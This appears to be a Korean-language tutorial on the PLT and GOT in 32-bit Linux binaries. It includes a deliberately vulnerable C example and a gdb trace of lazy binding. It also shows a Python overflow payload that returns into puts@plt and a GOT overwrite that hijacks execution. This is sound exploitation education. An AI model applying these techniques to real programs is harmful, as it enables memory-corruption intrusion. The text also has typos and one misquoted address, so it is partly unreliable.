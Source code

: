 # PLT, GOT
* **Procedure Linkage Table(PLT)** : 외부 라이브러리 함수를 사용할 수 있도록 주소를 연결해주는 역할을 하는 테이블
* **Global Offset Table(GOT)** : PLT에서 호출하는 resolve 함수를 통해 구한 라이브러리 함수의 절대 주소가 저장되어 있는 테이블
* 예제
```
//gcc -o example4 example4.c -fno-stack-protector -mpreferred-stack-boundary=2 -m32
#include <stdio.h>
int main(void){
  char buf[32] = {};
  puts("Hello World!");
  puts("Hello ASLR!");
  scanf("%s", buf);
  return 0;
}
```
```
//Dissassembly of example4's main func
…
   0x08048480 <+37>:	push   0x8048540
   0x08048485 <+42>:	call   0x8048320 <puts@plt>
   0x0804848a <+47>:	add    esp,0x4
   0x0804848d <+50>:	push   0x804854d
   0x08048492 <+55>:	call   0x8048320 <puts@plt>
   0x08048497 <+60>:	add    esp,0x4
   0x0804849a <+63>:	lea    eax,[ebp-0x20]
   0x0804849d <+66>:	push   eax
   0x0804849e <+67>:	push   0x8048559
   0x080484a3 <+72>:	call   0x8048340 <__isoc99_scanf@plt>
…
```
example4의 디스어셈블리 결과를 보면 puts와 scanf함수를 호출할 때 해당 함수의 라이브러리 코드 주소로 바로 점프하지 않고 PLT 영역으로 점프하는 것을 확인할 수 있다.
ASLR이 적용되어 있는 환경에서, 동적으로 라이브러리를 링크하여 실행되는 바이너리(Dynamically linked binary)는 바이너리가 실행될 떔다 라이브러리가 매핑되는 메모리의 주소가 변한다.
PLT와 GOT 영역이 존재하는 이유는 Dynamically linked binary의 경우 바이너리가 실행도기 전까지 라이브러리 함수의 주소를 알 수 없기 때문이다.
라이브러리가 메모리에 매핑된 후 라이브러리 함수가 호추되면, 정적 주소를 통해 해당 함수의 PLT와 GOT영역에 접근함으로써 함수의 주소를 찾는다.   
디버깅을 통해 puts 함수를 호출했을 때 PLT에서 어떤 일을 하는지 확인해 보자.
```
(gdb) b*0x8048485
Breakpoint 1 at 0x8048485
(gdb) r
Starting program: ~/example4 
Breakpoint 1, 0x08048485 in main ()
(gdb) x/i $eip
=> 0x8048485 <main+42>:	call   0x8048320 <puts@plt>
(gdb) si
0x08048320 in puts@plt ()
(gdb) x/4i $eip
=> 0x8048320 <puts@plt>:	jmp    DWORD PTR ds:0x804a00c
   0x8048326 <puts@plt+6>:	push   0x0
   0x804832b <puts@plt+11>:	jmp    0x8048310
   0x8048330 <__libc_start_main@plt>:	jmp    DWORD PTR ds:0x804a010
(gdb) x/wx 0x804a00c
0x804a00c:	0x08048326
(gdb) x/2i 0x8048310
   0x8048310:	push   DWORD PTR ds:0x804a004
   0x8048316:	jmp    DWORD PTR ds:0x804a008
(gdb) x/wx 0x804a008
0x804a008:	0xf7fee000
```
puts@plt+0에서는 0x804a00c 메모리를 참조하여 저장되어 있는 값으로 점프한다. 해당 메모리에는 puts@plt+6의 주소가 저장되어 있다.
puts@plt+6에서는 스택에 0을 push한 후 0x8048310 함수로 점프한다. 이후에는 0x804a008 주소에 저장되어 있는 0xf7fee000 함수로 점프한다.
```
(gdb) x/11i 0xf7fee000
   0xf7fee000:	push   eax
   0xf7fee001:	push   ecx
   0xf7fee002:	push   edx
   0xf7fee003:	mov    edx,DWORD PTR [esp+0x10]
   0xf7fee007:	mov    eax,DWORD PTR [esp+0xc]
   0xf7fee00b:	call   0xf7fe77e0
   0xf7fee010:	pop    edx
   0xf7fee011:	mov    ecx,DWORD PTR [esp]
   0xf7fee014:	mov    DWORD PTR [esp],eax
   0xf7fee017:	mov    eax,DWORD PTR [esp+0x4]
   0xf7fee01b:	ret    0xc
(gdb) b*0xf7fee01b
Breakpoint 2 at 0xf7fee01b
(gdb) c
Continuing.
Breakpoint 2, 0xf7fee01b in ?? () from /lib/ld-linux.so.2
(gdb) x/wx $esp
0xffffd520:	0xf7e62ca0
(gdb) x/i 0xf7e62ca0
   0xf7e62ca0 <puts>:	push   %ebp
(gdb) 
```
링커 라이브러리인 ld-linux.so.2 메모리에 있는 0x7f7ee000 함수가 리턴하는 시점에 breakpoint를 설정해 스택 메모리를 확인해 보자.
puts 함수로 점프하는 것으로 보아, 0x7f7ee000 함수는 호출된 라이브러리 함수의 주소를 알아내는 함수라는 것을 알 수 있다.

특정 함수의 PLT를 호출하면 함수의 실제 주소를 호출하는 것과 같은 효과를 나타낸다. PLT의 주소는 고정되어 있기 때문에 서버에 ASLR 보호 기법이 적용되어 있어도 PLT로 점프하면 RTL과 비슷한 공격이 가능하다.
```
$ (python -c 'print "A"*36 + "\x26\x83\x04\x08" + "BBBB" + "\x53\x85\x04\x08"') | ./example4
Hello World!
Hello ASLR!
ASLR!
[1]    121124 done                              ( python -c 'print "A"*36 + "\x26\x83\x04\x08" + "BBBB" + "\x53\x85\x04\x08"') | 
       121126 segmentation fault (core dumped)  ./example4
```
example4에서 스택 버퍼 오버플로우 취약점을 이용해 리턴 주소를 puts@plt+6(0x8048326)으로 바꾸고, 첫 번째 인자는 "ASLR!" 문자열의 주소인 0X8048553로 바꿔 보자.
puts 함수가 실행되어 "ASLR!" 문자열이 출력된 것을 볼 수 있다. 하지만 puts 함수가 실행된 후 리턴할 주소는 0x42424242이기 때문에 Segmentation fault가 ㅂ라생하여 프로그램이 비정상 종료된다.
함수가 호출될 때 GOT에 저장된 주소로 점프하기 때문에 GOT에 저장된 값을 바꾸면 원하는 주소로 점프할 수 있다.
example4 바이너리의 main함수에 breakpoint를 걸고 실행한 후 puts 함수의 GOT인 0x804a00c 메모리의 값을 0xdaedbeef로 바꾸어 보자.
```
$ gdb -q ./example4
Reading symbols from ./example4...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x8048461
(gdb) r
Starting program: ~/example4 
Breakpoint 1, 0x08048461 in main ()
(gdb) set *0x804a00c = 0xdeadbeef
(gdb) c
Continuing.
Program received signal SIGSEGV, Segmentation fault.
0xdeadbeef in ?? ()
(gdb) x/i $eip
=> 0xdeadbeef:	Cannot access memory at address 0xdeadbeef
(gdb) 
```
프로그램을 이어서 실행하면 puts가 호출될 떄 pust@got에 저장된 값으로 점프해 eip 레지스터의 값이 0xdeadbeef로 바뀐다.
이제 PLT에 존재하는 함수들, 즉 프로그램에서 한 번 이상 사용하는 라이브러리 함수들은 고정된 주소를 통해 호출할 수 있다는 것을 알게 되었다.
하지만 example4에서는 최종 목표인 셸을 획득하는데 필요한 함수들(system 함수나 exec 계열 함수)을 사용하지 않기 때문에 ASLR 환경에서 직접적으로 해당 함수들을 호출할 수 없다.    

+) **nexti(ni)명령어와 stepi(si)의 차이점**   
만약에 call하는 부분에 breakpoint를 설정했다고 가정하자.
ni를 하면 call을 따라가는 것이 아니라 다음 명령으로 넘어간다. 즉, ni로 call을 실행하고 넘어가는 것이다.
si를 하면 call 한 명령어를 따라가서 수행한다. 즉, 함수 안으로 들어가서 진행을 한다.
